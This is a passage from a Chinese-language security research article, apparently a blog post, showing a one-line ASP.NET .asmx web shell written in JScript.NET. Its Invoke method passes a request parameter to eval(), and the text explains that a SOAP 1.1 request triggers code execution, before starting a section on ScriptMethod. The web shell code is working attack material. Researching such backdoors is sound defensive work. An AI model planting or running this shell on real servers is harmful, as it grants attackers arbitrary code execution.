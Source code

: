 一句话实现的代码如下：

```
&lt;%@ WebService Language="JScript" class="asmxWebMethodSpy"%&gt;

import System;

import System.Web;

import System.IO;

import System.Web.Services;

public class asmxWebMethodSpy extends WebService

`{`

WebMethodAttribute function Invoke(Ivan: String) : Void

`{`

var I = HttpContext.Current;

var Request = I.Request;

var Response = I.Response;

var Server = I.Server;

Response.Write("&lt;H1&gt;Just for Research Learning, Do Not Abuse It! Written By &lt;a href='https://github.com/Ivan1ee'&gt;Ivan1ee&lt;/a&gt;&lt;/H1&gt;");

eval(Ivan);

`}`

`}`
```

打开浏览器，测试效果如下

[![](https://p0.ssl.qhimg.com/t01c213801e57170fe1.png)](https://p0.ssl.qhimg.com/t01c213801e57170fe1.png)

依照SOAP1.1的规范要求，发送请求的数据包就可以实现一句话代码执行，笔者这里还是拿当前的时间作为攻击载荷，如下图

[![](https://p5.ssl.qhimg.com/t011520af65b328d05a.png)](https://p5.ssl.qhimg.com/t011520af65b328d05a.png)

### 3.2、ScriptMethod

在研究WebMethod的时候，发现VisualStudio有段注释如下图

[![](https://p1.ssl.qhimg.com/t010b7c633ef1e3ed9b.png)](https://p1.ssl.qhimg.com/t010b7c633ef1e3ed9b.png)
